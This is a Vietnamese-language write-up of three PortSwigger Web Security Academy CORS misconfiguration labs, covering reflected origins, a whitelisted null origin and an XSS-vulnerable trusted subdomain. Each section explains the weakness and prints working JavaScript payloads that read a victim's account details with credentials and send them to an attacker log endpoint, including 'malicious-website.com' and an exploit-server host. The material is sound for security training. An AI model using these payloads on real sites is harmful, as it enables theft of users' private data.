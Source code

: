 # CORS

### 1. CORS vulnerability with basic origin reflection
https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

Context: trusted all origin

![alt text](image.png)

Trong response có `Access-Control-Allow-Credentials: True` nó cho phép mang cookie hoặc authorization client có khi truy cập từ orgin khác. 

Test:

Thêm `Origin: https://example.com` vào request và ở response xuất hiện `Access-Control-Allow-Origin: https://example.com`

![alt text](image-1.png)

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

hoặc 
```js
<html>
    <body>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "Lab-id"

            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```

--- 

### 2. CORS vulnerability with trusted null origin
https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack

Nếu whitelist của trusted origin có `null` thì dẫn đến việc nó có thể dẫn đến CORS do browser sẽ gửi giá trị `null` trong origin trong 1 số trường hợp như: 
- Cross-origin redirects.
- Requests từ serialized data.
- Request sử dụng `file:` protocol.
- request cross-origin được gửi từ Sandboxed.

Payload: 
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

---

XSS WITH CORS

Khi CORS cho phép 1 orgin, nhưng origin đó có thể tấn công XSS thì từ origin đó có thể thực thi JS CORS qua trang chính mà không bị chặn. 

---

### 3. CORS vulnerability with trusted insecure protocols
https://portswigger.net/web-security/cors/lab-breaking-https-attack

Context: ở đây subdomain `stock.domain chính` bị XSS từ đây ta có payload: 

```html
<script>
    document.location="http://stock.0a41007504014d858586c60500f000c4.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a41007504014d858586c60500f000c4.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a2e0093048b4d188569c55301ea0032.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

Ta chú ý: xuất phát từ `stock.` là trang bị XSS nhưng CORS cho phép, dùng JS để truy cập trang web cần lấy và rồi gửi thông tin về server attacker, rõ ràng trang web bị XSS nhưng vẫn nằm trang danh sách CORS này là trung gian.

Có 1 điểm đặc biệt nghiêm trọng trong CORS là `Access-Control-Allow-Credentials: true` vì khi có header này tức là khi ta request đến trang đó, nó sẽ cho phép lấy các authorization hoặc cookie mà client đã truy cập trước đó để request, thì sẽ tự động vào phiên của người dùng trước đó, còn nếu không có thì dù có truy cập được nhưng vẫn chỉ là trang web chung, vì ko có tính cá nhân victim trong đó. 


 
